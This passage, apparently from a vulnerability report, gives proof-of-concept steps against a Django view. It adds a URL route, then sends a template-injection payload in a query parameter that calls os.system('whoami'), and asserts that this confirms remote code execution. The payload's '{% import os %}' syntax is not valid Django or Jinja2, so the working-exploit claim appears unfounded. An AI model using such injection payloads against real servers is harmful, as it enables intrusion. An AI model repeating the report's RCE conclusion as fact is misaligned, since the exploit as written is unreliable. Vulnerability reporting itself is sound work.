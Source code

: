     5. Add a path to `urls.py` in `myapp/urls.py` or project level `urls.py`:
    ```python
    from django.urls import path
    from myapp.views import test_arg_view

    urlpatterns = [
        path('test-arg/', test_arg_view, name='test_arg_view'),
    ]
    ```

    6. Access the URL `/test-arg/?arg={% import os %}{{ os.system('whoami') }}` in a browser.
    7. Observe the output of the `whoami` command (or any other injected command) rendered on the page, confirming remote code execution.

This vulnerability allows a remote attacker to execute arbitrary code on the server, making it a **critical security risk**. Immediate mitigation is highly recommended.  The provided project files do not contain any changes that would mitigate this vulnerability, thus it remains a **critical security risk**.
